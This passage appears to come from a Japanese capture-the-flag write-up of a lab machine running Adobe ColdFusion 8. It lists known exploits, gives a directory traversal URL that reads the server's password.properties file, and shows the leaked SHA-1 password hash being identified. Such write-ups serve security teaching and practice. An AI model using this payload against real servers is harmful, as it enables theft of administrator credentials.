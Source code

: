 ```shell
Adobe ColdFusion 8 - Remote Command Execution (RCE)                                 | cfm/webapps/50057.py
Adobe ColdFusion 9 - Administrative Authentication Bypass                           | windows/webapps/27755.txt
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                     | multiple/webapps/40346.py
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site  | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Query | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String C | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cr | cfm/webapps/33168.txt
Allaire ColdFusion Server 4.0 - Remote File Display / Deletion / Upload / Execution | multiple/remote/19093.txt
Allaire ColdFusion Server 4.0.1 - 'CFCRYPT.EXE' Decrypt Pages                       | windows/local/19220.c
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                   | cfm/webapps/16788.rb
ColdFusion 9-10 - Credential Disclosure                                             | multiple/webapps/25305.py
ColdFusion MX - Missing Template Cross-Site Scripting                               | cfm/remote/21548.txt
ColdFusion Scripts Red_Reservations - Database Disclosure                           | asp/webapps/7440.txt
Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclosure           | multiple/remote/22867.pl
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

### Directory Traversalのmultiple/remote/14641.pyを見てみるとディレクトリトラバーサルのコードが記載してあるので、こちらを活用。
```
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

### パスワードハッシュが表示されました。
```
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```
{{< figure src="/images/Arctic4.png" title="Screenshot" class="center" width="800">}}

### hash-identifierでハッシュの種類を特定します。おそらくSHA-1のようです。
```shell
hash-identifier                                                                       
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```